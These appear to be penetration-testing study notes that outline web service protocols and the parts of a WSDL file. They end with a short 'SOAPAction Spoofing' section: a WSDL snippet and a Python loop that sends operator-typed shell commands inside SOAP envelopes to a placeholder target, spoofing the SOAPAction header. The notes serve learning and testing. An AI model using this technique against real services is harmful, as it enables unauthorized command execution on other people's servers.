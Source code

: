 1. **XML-RPC:**
   - Uses XML for encoding/decoding Remote Procedure Calls (RPC).
   - Typically uses HTTP as the transport protocol.

2. **JSON-RPC:**
   - Uses JSON for invoking functionality.
   - Typically uses HTTP as the transport protocol.

3. **SOAP (Simple Object Access Protocol):**
   - Uses XML but provides more functionalities than XML-RPC.
   - Defines both a header structure and a payload structure.
   - Optional Web Services Definition Language (WSDL) declaration.
   - Various lower-level protocols (HTTP included) can be the transport.

4. **WS-BPEL (Web Services Business Process Execution Language):**
   - Essentially SOAP web services with more functionality for describing and invoking business processes.
   - Resembles SOAP services.

5. **RESTful (Representational State Transfer):**
   - Usually uses XML or JSON.
   - WSDL declarations are supported but uncommon.
   - HTTP is the transport of choice.
   - HTTP verbs are used to access/change/delete resources and use data.

## Breakdown of WSDL file

1. **Definition:**
   - The root element of all WSDL files.
   - Specifies the name of the web service, declares namespaces, and defines other service elements.

2. **Data Types:**
   - Defines the data types used in exchanged messages.
   - Specifies elements with their types for requests and responses.

3. **Messages:**
   - Defines input and output operations supported by the web service.
   - Messages are presented either as entire documents or as arguments to be mapped to a method invocation.

4. **Operation:**
   - Defines available SOAP actions alongside the encoding of each message.

5. **Port Type:**
   - Encapsulates every possible input and output message into an operation.
   - Defines the web service, available operations, and exchanged messages.

6. **Binding:**
   - Binds operations to a particular port type (interface).
   - Provides web service access details, including message format, operations, messages, and interfaces.

7. **Service:**
   - A client makes a call to the web service through the specified service name.
   - Identifies the location of the web service.

**SOAPAction Spoofing**

If following in wsdl file
```
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

```
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
